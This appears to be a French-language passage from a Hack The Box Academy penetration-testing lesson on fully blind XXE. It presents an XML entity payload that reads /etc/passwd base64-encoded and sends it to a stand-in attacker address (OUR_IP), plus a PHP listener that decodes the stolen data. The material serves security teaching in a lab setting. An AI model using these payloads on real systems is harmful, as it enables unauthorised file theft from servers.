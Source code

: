 * * * * *

Dans la section précédente, nous avons vu un exemple de vulnérabilité XXE aveugle, où nous n'avons reçu aucune sortie contenant aucune de nos entités d'entrée XML. Comme le serveur web affichait des erreurs d'exécution PHP, nous pouvions utiliser cette faille pour lire le contenu des fichiers à partir des erreurs affichées. Dans cette section, nous verrons comment nous pouvons obtenir le contenu des fichiers dans une situation complètement aveugle, où nous n'obtenons ni la sortie d'aucune des entités XML ni aucune erreur PHP affichée.

* * * * *

Exfiltration de données hors bande
----------------------------------

Si nous essayons de répéter l'une des méthodes avec l'exercice que nous trouvons à `/blind`, nous remarquerons rapidement qu'aucune d'entre elles ne semble fonctionner, car nous n'avons aucun moyen d'imprimer quoi que ce soit sur la réponse de l'application Web. Pour de tels cas, nous pouvons utiliser une méthode connue sous le nom de `Out-of-band (OOB) Data Exfiltration`, qui est souvent utilisée dans des cas aveugles similaires avec de nombreuses attaques Web, comme les injections SQL aveugles, les injections de commandes aveugles, XSS aveugle et, bien sûr, XXE aveugle. Les modules [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) et [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) ont tous deux discuté d'attaques similaires, et ici nous utiliserons une attaque similaire, avec de légères modifications pour s'adapter à notre vulnérabilité XXE.

Lors de nos attaques précédentes, nous avons utilisé une `out-of-band`attaque puisque nous avons hébergé le fichier DTD dans notre machine et avons fait en sorte que l'application Web se connecte à nous (donc hors bande). Donc, notre attaque cette fois sera assez similaire, avec une différence significative. Au lieu que l'application Web produise notre `file`entité vers une entité XML spécifique, nous ferons en sorte que l'application Web envoie une requête Web à notre serveur Web avec le contenu du fichier que nous lisons.

Pour ce faire, nous pouvons d'abord utiliser une entité de paramètre pour le contenu du fichier que nous lisons tout en utilisant le filtre PHP pour l'encoder en base64. Ensuite, nous allons créer une autre entité de paramètre externe et la référencer à notre IP, et placer la `file`valeur du paramètre dans le cadre de l'URL demandée via HTTP, comme suit :

Code : xml

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

```

Si, par exemple, le fichier que nous voulons lire avait le contenu de `XXE_SAMPLE_DATA`, alors le `file`paramètre contiendrait ses données encodées en base64 ( `WFhFX1NBTVBMRV9EQVRB`). Lorsque le XML essaie de référencer le `oob`paramètre externe de notre machine, il demandera `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Enfin, nous pouvons décoder la `WFhFX1NBTVBMRV9EQVRB`chaîne pour obtenir le contenu du fichier. Nous pouvons même écrire un simple script PHP qui détecte automatiquement le contenu du fichier encodé, le décode et le renvoie au terminal :

Code : php

```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```
